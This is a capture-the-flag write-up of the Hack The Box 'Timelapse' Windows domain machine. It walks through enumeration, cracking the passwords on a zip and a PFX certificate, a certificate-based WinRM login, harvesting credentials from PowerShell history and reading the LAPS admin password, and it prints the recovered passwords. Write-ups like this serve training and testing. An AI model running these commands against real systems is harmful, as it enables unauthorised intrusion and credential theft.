

# Timelapse Machine

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command ```sudo nmap -Pn -p- --min-rate 1000 -v timelapse.htb```


Once the open ports are known, I began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: ```sudo nmap -sS -sV -O -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49673,49674,64088 --min-rate 1000 -oN timelapseServiceVersions timelapse.htb```


### DNS Enumeration
As port 53 is open, I will try to enumerate subdomains and DNS related information.
Using dig tool I try to recover any entry with ```dig any timelapse.htb @10.10.11.152```


As it is shown on the picture, a new subdomain appears (dc01.timelapse.htb) which seems to be an Active Directory Domain Controller.

### LDAP Enumeration

Using python console, I will try to manually obtain LDAP useful information as the naming con-text. 

```

$$ server = ldap3.Server('10.10.11.152', get_info = ldap3.ALL, port = 389, use_ssl = False)      
$$ connection = ldap3.Connection(server)      
$$ connection.bind()
>>True                                                                                                                
$$ server.info

```


As intended, naming context was obtained being the default naming context: “DC=timelapse, DC=htb”. However, naming context is not the only piece of information recovered. It was also known the server time (useful for requesting Kerberos Tickets), and the LDAP name of the Domain Controller ```CN=DC01, CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb```

### SMB Enumeration

“Crackmapexec” tool will allow to check whether there are publicly accessible shares or aren’t. With this goal, command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' –shares``` will show (if possible) shared folders and which permissions does “test” user have on each one (during the tests it was learnt that null sessions are also available on this machine). 


As seen in the previous picture, an interesting share called “Share” has been listed. User test has read access in this share.
Next step is to try and spider the share using as pattern “.” This way, almost every file will be listed. In order to do this command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' --spider Shares --pattern . ```


Interesting files have appeared. In order to retrieve the files and have a better interaction with the target SMB, “smbclient” tool will be used. As null sessions are allowed, command used will be ```smbclient \\\\10.10.11.152\\Shares```


To download everything easier recurse mode is activated using “recurse” smb command. After that both folders are downloaded using ```mget <folder-name>” command```


Inspecting the recently downloaded files, one of them stands out because of the name “winrm_backup.zip” and because it contains a “.PFX” certificate file. When trying to unzip it, it is learnt that it is password-protected. To break the protection next steps were followed:

1. Extract the hash of the password using ```zip2john winrm*```

2. Export the hash to a file called “hash.txt” (only the string between $pkzip$ and $/pkzip$ as it is the format that hashcat uses).

3. Perform dictionary attack using hashcat with command ```.\hashcat -m 17200 -a 0 hash.txt rockyou.txt```


As seen in the picture, ZIP password was recovered, and it is “supremelegacy”. 

After extracting the file inside the ZIP “legacy_dev_auth.pfx” it is known that it is also password-protected.


## Initial Access - Insecure Credentials

**Vulnerability Explanation**: Among the files found on the publicly accessible SMB shares, a password-protected ZIP file was found containing an also password-protected “.PFX” certificate file. Both passwords were found with a dictionary and performing a dictionary attack.

**Vulnerability Fix**: Avoid using easy passwords.

**Severity**: Critical

**Steps to reproduce the attack**: 

1.	Donwload the pfx file password cracking from github “https://github.com/crackpkcs12/crackpkcs12”

2.	Launch the dictionary attack using ```crackpkcs12 -d <dictionary-file> <pfx-file> -t <num-ber-of-threads>```


3.	Using the password, extract the private key file and certificate from the pfx file using following two commands:

```

openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.cert.pem -clcerts -nokeys
openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.key.pem -nocerts -nodes
	
```


4.	Using the recently obtained files, authenticate using ```evil-winrm -i 10.10.11.152 -c Dev/certs/timelapse-legacy.cert.pem -k Dev/certs/timelapse-legacy.key.pem -u legacyy -S```


5.	Grab “C.\Users\Legacyy\Desktop\User.txt”

## Post-Exploitation

Once logged in as “legacyy”, exploring the command line history file ```$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt``` cleartext credentials are found for user “svc_deploy”.


Using those credentials ```Svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV```, it is possible to log in as “svc_deploy” through winrm.


## Privilege Escalation - LAPS_Reader Group

**Vulnerability Explanation**: after logging in as svc_deploy with recently found cleartext credentials, it is found that this user is a member of the LAPS_reader group. Members of this group are allowed to access the Local Administrator password from the “ms-mcs-admpwd” attribute of computer’s domain object.

**Vulnerability Fix**: securely store credentials.

**Severity**: Critical

**Steps to reproduce the attack**: after logging in as a “LAPS_reader” group member, using cmdlet ```get-domaincomputer``` from “PowerSploit.ps1” (https://github.com/PowerShellMafia/PowerSploit) extract the ms-mcs-admpwd with the following command ```get-domaincomputer | where-object { $_.’ms-mcs-admpwd’ -ne $null } | select-object ms-mcs-admpwd```



As shown in the previous picture, credentials are recovered ```Yln0l#3M+,705uQP9g(nSq8+```

After that, login as Administrator and grab the flag.


